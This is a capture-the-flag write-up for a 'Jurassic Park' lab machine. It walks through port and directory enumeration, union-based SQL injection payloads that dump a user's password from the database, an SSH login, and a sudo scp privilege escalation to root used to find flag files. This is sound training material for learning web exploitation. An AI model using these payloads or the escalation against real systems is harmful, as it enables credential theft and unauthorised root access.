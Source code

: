 # Jurassic Park CTF

## This medium-hard task will require you to enumerate the web application, get credentials to the server and find four flags hidden around the file system. Oh, **Dennis** Nedry has helped us to secure the app too.

### What is the name of the SQL database serving the shop information?

1. Start by port enumeration, there are only two open ports

```bash
nmap -p- -Pn <IP>
```

- `-p-`: Allow us to scan all 65535 TCP ports
- `-Pn`: Skips the host discovery process (ping scan)

[SCREEN01]

2. Gobuster doesn't give us much more, just `/delete` and `/assets`. But in `/delete` there is information that `Ubuntu` is the OS, and database is `MySQL`

```bash
gobuster dir -u http://<IP> -w /root/Tools/wordlists/dirbuster/directory-list-1.0.txt
```

- `-u`: Specifies the URL to scan
- `-w`: Specifies the wordlist file used for brute-forcing

[SCREEN02]

3. Going through the shop we can spot interesting url that is `<IP>/item.php?id=1`. If we put `'` at the end we will get caught

4. Use [Cyber Chief](https://gchq.github.io/CyberChef) URL Encode to prepare injection payload

```SQL
0 UNION SELECT 1,database(),3,4,5
```

[SCREEN03]

### How many columns does the table have?

If we go above 5, we will get an error '**Unknown column '6' in 'order clause'**'

```SQL
0 UNION SELECT 1,2,3,4,5
```

### What is the system version?

We can use payload like this to display version

```SQL
0 UNION SELECT 1,2,version(),4,5
```

[SCREEN04]

### What is Dennis' password?

1. First let's find out other tables

```SQL
0 UNION SELECT 1,2,group_concat(table_name),4,5 from information_schema.tables where table_schema = database()
```

[SCREEN05]

2. Columns in `users`

```SQL
0 UNION SELECT 1,2,group_concat(column_name),4,5 from information_schema.columns where table_name = "users"
```

[SCREEN06]

3. Now get password, we already know the name

```SQL
0 UNION SELECT 1,2,3,password,5 from users
```

[SCREEN07]

### What are the contents of the first flag?

1. Login using ssh

```Bash
ssh dennis@<IP>
```

[SCREEN08]

2. The flag is right when we started

```Bash
cat flag1.txt
```

[SCREEN09]

### What are the contents of the second flag?

1. Let's get root access to move around more easily

```Bash
sudo -l
```

[SCREEN10]

2. Check [GTFOBins](https://gtfobins.github.io/gtfobins/scp/) for `scp`, use the sudo commands and upgrade our shell

```Bash
TF=$(mktemp)
echo 'sh 0<&2 1>&2' > $TF
chmod +x "$TF"
sudo scp -S $TF x y:

python -c 'import pty; pty.spawn("/bin/bash")'
```

[SCREEN11]

3. Let's try to find more

```Bash
find / -type f -name "*flag*.*"
cat /boot/grub/fonts/flagTwo.txt
```

[SCREEN12]

### What are the contents of the third flag?

1. Third flag is hidden in history:

```Bash
history
```

[SCREEN13]

### What are the contents of the fifth flag?

1. In `home/dennis/` there is `test.sh` which points to the `/root/flag5.txt`

```Bash
cat test.sh
cat /root/flag5.txt
```

[SCREEN14]
